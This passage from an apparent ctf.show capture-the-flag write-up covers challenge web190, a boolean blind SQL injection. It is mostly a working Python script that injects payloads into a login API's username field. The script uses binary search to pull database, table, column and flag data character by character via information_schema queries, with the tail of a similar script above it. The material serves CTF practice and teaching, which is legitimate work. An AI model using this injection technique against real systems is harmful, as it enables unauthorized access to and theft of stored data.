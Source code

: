 ```cobol
        }
        re = requests.post(url=url,data=data)
        # print(re.text)
        # print(payload1)
        if r"""{"code":0,"msg":"\u5bc6\u7801\u9519\u8bef","count":0,"data":[]}""" in re.text:
            flag +=j
            print(flag)
            if j == "}":
                exit()
            break
```

最终实现了注入

## web190 布尔盲注

啥都没过滤的布尔盲注

```cobol
import string
 
import requests
 
url = "http://eb03d743-6ff1-4788-8972-29b7e88b2e52.challenge.ctf.show/api/"
# payload = """admin' and if(ascii(substr((select database()),{0},1))>{1},1,0)-- +"""
# payload = "admin' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1))>{1},1,0)-- +"
# payload = "admin' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{0},1))>{1},1,0)-- +"
# flag = "ctfshow{"
payload = "admin' and if(ascii(substr((select group_concat(id,'---',f1ag)from ctfshow_fl0g),{0},1))>{1},1,0)-- +"
flag = ''
for i in range(1,100):
    high = 128
    low = 32
    mid =(high+low)//2
    while (high>low):
        payload1=payload.format(i,mid)
        # print(payload1)
        data ={
            'username':payload1,
            'password':0
        }
        re = requests.post(url=url,data=data)
        # print(re.text)
        # print(payload1)
        if r"""{"code":0,"msg":"\u5bc6\u7801\u9519\u8bef","count":0,"data":[]}""" in re.text:
            low = mid + 1
        else:
            high = mid
        mid = (high+low)//2
        if chr(mid) == " ":
            break
    flag += chr(mid)
    print(flag)
    if chr(mid) == '}':
        exit()
```
